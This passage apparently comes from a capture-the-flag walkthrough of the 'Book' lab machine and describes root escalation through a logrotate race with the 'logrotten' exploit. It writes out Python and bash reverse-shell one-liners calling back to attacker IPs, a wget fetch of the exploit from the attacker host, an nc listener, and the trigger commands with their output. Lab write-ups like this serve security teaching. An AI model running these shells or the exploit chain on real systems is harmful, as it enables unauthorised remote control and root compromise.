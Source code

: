Now, we have to prepare a payload file. We edit a payload file `reader@book:~$ nano payload` and write the following classic Python reverse shell code as its content:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

Another usual code for our payload is :

~~~
bash -i >& /dev/tcp/10.10.14.18/4444 0>&1
bash -i >& /dev/tcp/10.10.14.17/666 0>&1
~~~

Of course we save it and make it executable. Now, we download the exploit on the target and compile it with **`$ gcc logrotten.c -o logrotten`** and make it executable:

~~~
reader@book:~$ wget http://10.10.14.18/logrotten.c
reader@book:~$ gcc logrotten.c -o logrotten
reader@book:~$ chmod +x payload logrotten
~~~

On our Kali machine we set up a listener with `root@kali:~# nc -nlvp 4444` before we run the exploit.

At the same time we run it, we want the log rotate to trigger our exploit. After testing, wa can notice that there is _**access.log**_ file, and we know that each minute it is backed up and replace by a new and empty file. We actually just want the _**access.log**_ file to not be empty. A way to do this is to generate and write anough random data in the log file _**access.log**_. Another way is **`cp backups/access.log.1 backups/access.log`**.

Let's try it: 

~~~
head -c 10M < /dev/urandom > backups/access.log; ./logrotten -p ./payload /home/reader/backups/access.log; ls /etc/bash_completion.d/;
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
access.log  access.log-2020071415.backup  apport_completion  cloud-init  git-prompt  grub
~~~

It takes several trials before it works and the shell is unstable but it finally works.

![root-txt](images/root-txt.png "root-txt")
